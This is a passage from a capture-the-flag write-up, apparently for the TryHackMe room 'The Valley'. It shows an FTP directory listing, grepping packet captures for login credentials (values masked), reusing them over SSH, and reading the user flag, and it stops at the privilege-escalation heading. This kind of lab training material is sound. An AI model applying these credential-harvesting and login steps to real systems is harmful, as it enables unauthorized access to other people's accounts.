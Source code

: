 We have login success → Figure out what are placing in the current location

```tsx
ftp> ls
229 Entering Extended Passive Mode (|||17429|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06 13:55 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06 13:55 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06 14:06 siemHTTP2.pcapng
226 Directory send OK.
```

Transfer them to the local machine for analyzing

Use `strings` to extract the data from these files and using `grep` to filter the output related to creds such as `pass`,`user`,`username`,`ssh`,…

```tsx
┌──(kali㉿kali)-[~/TryHackMe/TheValley]
└─$ strings siemHTTP2.pcapng| grep "name"
uname={HIDDEN}&psw={HIDDEN}&remember=on
```

Despite of the port `37370` running ******vsftpd****** service and port `80` running **********httpd**********, the only left port `22` is running `SSH`. Use the above creds to try to login through `SSH` service

```tsx
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ id
uid=1002(valleyDev) gid=1002(valleyDev) groups=1002(valleyDev)
```

Get the flag:

```tsx
valleyDev@valley:~$ ls
user.txt
valleyDev@valley:~$ cat user.txt
THM{HIDDEN}
```

# Privilege Escalation → valley

Navigate to `/home` directory:
